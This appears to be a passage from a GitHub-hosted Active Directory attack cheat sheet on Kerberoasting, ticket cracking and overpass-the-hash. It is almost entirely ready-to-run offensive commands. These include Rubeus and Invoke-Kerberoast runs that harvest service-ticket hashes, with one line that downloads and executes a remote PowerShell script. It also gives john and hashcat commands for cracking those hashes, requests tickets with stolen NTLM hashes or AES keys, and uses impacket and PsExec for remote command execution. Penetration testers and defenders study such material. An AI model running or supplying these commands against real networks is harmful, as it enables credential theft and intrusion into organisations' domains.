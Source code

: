 ```
.\Rubeus.exe kerberoast /ldapfilter:'admincount=1' /nowrap #Get of admins

# Invoke-Kerberoast
iex (new-object Net.WebClient).DownloadString("https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Kerberoast.ps1")
Invoke-Kerberoast -OutputFormat hashcat | % { $_.Hash } | Out-File -Encoding ASCII hashes.kerberoast
```
- Ticket cracking
```
# Transform kirbi ticket to john
> kirbi2john ticket.kirbi > ticket.john
* kirbi2hashcat: https://raw.githubusercontent.com/jarilaos/kirbi2hashcat/master/kirbi2hashcat.py

# Transform john to hashcat
> sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' crack_file > ticket_tgs_hashcat

# Cracking tools
> john --format=krb5tgs --wordlist=passwords_kerb.txt hashes.kerberoast
> hashcat -m 13100 --force -a 0 hashes.kerberoast passwords_kerb.txt
./tgsrepcrack.py wordlist.txt 1-MSSQLSvc~sql01.medin.local~1433-MYDOMAIN.LOCAL.kirbi
```

# Tickets handling
### Overpass The Hash/Pass The Key (PTK)
```
# Request the TGT with hash
python getTGT.py <domain_name>/<user_name> -hashes [lm_hash]:<ntlm_hash>
# Request the TGT with aesKey (more secure encryption, probably more stealth due is the used by default by Microsoft)
python getTGT.py <domain_name>/<user_name> -aesKey <aes_key>
# Request the TGT with password
python getTGT.py <domain_name>/<user_name>:[password]
# If not provided, password is asked

# Set the TGT for impacket use
export KRB5CCNAME=<TGT_ccache_file>

# Execute remote commands with any of the following by using the TGT
python psexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python smbexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
python wmiexec.py <domain_name>/<user_name>@<remote_hostname> -k -no-pass
```

```
# Ask and inject the ticket
.\Rubeus.exe asktgt /domain:<domain_name> /user:<user_name> /rc4:<ntlm_hash> /ptt

# Execute a cmd in the remote machine
.\PsExec.exe -accepteula \\<remote_hostname> cmd
```
